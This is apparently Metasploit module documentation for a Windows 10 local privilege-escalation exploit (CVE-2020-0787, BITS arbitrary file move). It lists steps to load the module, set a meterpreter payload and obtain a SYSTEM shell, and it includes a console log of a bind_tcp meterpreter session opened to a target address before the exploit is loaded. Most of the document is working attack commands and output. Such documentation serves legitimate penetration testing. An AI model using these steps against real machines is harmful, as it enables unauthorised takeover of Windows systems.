 ## Verification Steps
  1. Start msfconsole
  2. Get a session with basic privileges on a Windows 10 machine
  3. Do: ```use exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move```
  4. Do: ```set payload windows/x64/<payload>``` if the target is an x64 machine, or ```set payload windows/<payload>``` if the target is an x86 machine.
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```set JOB_WAIT_TIME <seconds>``` to set the number of seconds you want to wait for the BITS job to complete.
  7. Do: Set the ```LPORT``` and ```RHOST``` options for the payload as needed.
  6. Do: ```run```
  7. You should get a shell running as SYSTEM a few seconds after the `JOB_WAIT_TIME` timer expires.

## Scenarios

### Windows 10 v1803 x64
```
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     172.22.182.71    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.22.182.71:4444
[*] Sending stage (201283 bytes) to 172.22.182.71
[*] Meterpreter session 4 opened (0.0.0.0:0 -> 172.22.182.71:4444) at 2020-06-08 12:29:53 -0500

meterpreter > background
[*] Backgrounding session 4...
msf5 exploit(multi/handler) > use exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options

Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  60               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCoreDeviceInfo.dll if it exists (false by default).
```